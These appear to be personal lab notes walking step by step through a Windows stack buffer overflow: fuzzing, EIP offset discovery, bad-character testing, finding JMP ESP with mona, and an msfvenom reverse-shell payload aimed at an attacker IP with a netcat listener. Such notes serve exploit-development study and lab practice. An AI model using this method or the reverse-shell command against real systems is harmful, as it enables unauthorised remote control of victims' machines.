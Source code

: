## Windows Buffer Overflow

1) First we identify the IP, service and the port it is running and make edits in the fuzzer script

**GO TO OPTIONS > APPEARANCE > Change > Font to 10-12 in IMMUNITY * View - CPU doubleclick
2) We start fuzzing with Ollydbg/Immunity AS ADMINISTRATOR running while it is attached to the service**

3) Depending on the no. of bytes which crash the service we see the EIP register pointing to AAAA

4) Next we create a pattern with `pattern_create.rb` of 2700 bytes and fuzz with it as our buffer.

`Usage : pattern_create.rb -l 2700`

5) Load the whole value into the buffer instead of the A's and re-run the fuzzer to crash the service. Re-attch and restart service first

6) Now we have a unique value on the EIP register let's use patter_offset to look for the location to understand EIP overwrite

Usage: `pattern_offset -q Value we found on EIP`

7) Output will be say 2606 that mean we need to overwrite the 4 characters after 2606 to overwrite EIP

8) Let's do this by pushing 2606 A's + 4 B's and 500 C's

9) We see that the EIP register is overwritten by 4 B's that is 42424242 in hex.

10) Now we must see if there is space for our shellcode which is normally 350-400 bytes in space

11) When we send 500 bytes as C's we see in the bottom right window we can double click and it shows relative to ESP the count and we can turn that value ex. 1ac to decimal which is 428 bytes.

12) Now we must find bad characters not allowed in payload. (Note `\x00` is always a badchar so its removed already )

```
badchars = (
"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
"\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"
"\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
"\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
"\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"
"\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"
"\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
"\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
"\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff" )
```

13) Let's fire it up in the A * 2606 + B * 4 + badchars in the buffer and see where the debugger starts truncating values that is a badchar for us.

Right click ESP and "Follow in dump" REMEMBER TO VIEW HEX DUMP!!!!!!!!!!!

14) We find \x0a as a badchar we remove and re-fuzz

15) Everything else looks good so remember to remove \x00 is always a badchar from payload

16) Now we have \x00,\x0a,\x0d as badhcharacters. (\x0d is FOUND BY SEEING THE GAP in values 0C and then 0E even though everything else seems good. Always keep in mind!

17) Now we must redirect the execution flow aka find a reliable address to get into our EIP so it will have this instruction JMP ESP and it will point to our shellcode

18 ) For hunting such an address we look into mona.py (Remember to restart the service and run it in Immunity debugger to find the right place)

19) we enter !mona modules in the white bar below to see which address will have False under DEP and ASLR as we need to avoid those

20)  Once we have our candidate we click the 'm' memory mapping and find the same and must have R and E both

21) We then go to Executables by clicking 'e' and double clicking the Vulnerable.dll and we see the code for execution of this dll.

22) To find this JMP ESP we can use nasm.rb inbuilt to generate the opcode so we can use mona to find it in our execution page for us.
```
Usage : nasm_shell.rb
nasm> jmp esp

00000000  FFE4              jmp esp
```
23) We now use `!mona find -s "\xff\xe4" -m slmfc.dll`

24) We get a bunch of JMP ESP addresses we pick one with no badcharacters!!!!

25) LEt's write that in our 'B' space but remember they must be written the other way around so here it is
0x5f4a358f and will be written as \x8f\x35\x4a\x5f in place of BBBB

26) Update our script and try to send and see if ESP is what we want it to be it redirects the flow to the CCCCCCCC....
FOR THIS WE PLACE A BREAKPOINT ON THE ADDRESS TO STOP THE PROGRAM AND NOTICE THE EIP WE ENTERED AND THEN CONTINUE IT
Right click on any address and click Go to > Expression and type in the address and boom Toggle the Breakpoint there.

Can pop calc first to see if needed else go for ROOT!

27) Then we see that our the crash should indicate the redirection to the CCCC's

28) Time to generate our payload with badchars specified and encode it
## NOTE : REMEMBER THE FORMAT of how to put badcharacters below no commas !!!!
`msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.52 LPORT=443 -f py -b "\x00\x0a\x0d" -e x86/shikata_ga_nai `

29) Copy this shellcode after the B's and we must add the no op sleds just a few like 10 and then the shellcode so metasploit can decode this shellcode

30) Setup a netcat listener/multi handler and you're GOLDEN!
